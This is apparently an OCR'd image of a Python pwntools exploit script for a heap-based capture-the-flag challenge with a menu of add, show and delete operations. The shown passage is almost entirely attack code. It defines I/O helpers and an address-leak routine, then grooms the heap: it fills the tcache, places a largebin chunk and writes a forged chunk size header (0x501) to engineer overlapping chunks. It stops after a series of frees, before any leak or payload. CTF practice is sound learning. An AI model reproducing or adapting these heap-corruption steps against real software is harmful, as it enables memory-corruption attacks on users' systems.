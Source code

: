 ```python
	ru=lambda x:p.recvuntil(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sa=lambda a,b:p.sendafter(a,b)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda :p.interactive()
	def leak_address():
		if(context.arch=='i386'):
			return u32(p.recv(4))
		else :
			return u64(p.recv(6).ljust(8,b'\x00'))

	def cho(num):
		sla(">> ",str(num))

	def add(size,content):
		cho(1)
		sla("size: ",str(size))
		sla("content: ",content)

	def show(idx):
		cho(2)
		sla('index: ',str(idx))

	def delete(idx):
		cho(3)
		sla("index: ", str(idx))

	add(0x6000-0x410+0x70, "padding") # 7-7
  
 
	for i in range(7): # 8-14 -7
    
		add(0x27, 't')
 
	add(0xb20, "largebin") # 15-7
  
	add(0x10, p64(0x21)) # 16-7
  
	delete(15-7)

	add(0x1000,p64(0x21)) # 15-7
  
	add(0x27, p64(7) + p64(0x501) + p8(0x80))#17-7    0x555555560050
  

	add(0x27, 'a') # 18-7
  
	add(0x27, 'b') # 19-7
  
	add(0x27, 'c') # 20-7
  
	add(0x27, 'd') # 21-7
  
 
	# fill in tcache_entry[1](size: 0x30)
  
	for i in range(7): # 8-14 -7
    
		delete(8 + i - 7)

	delete(20-7)
	delete(18-7)
```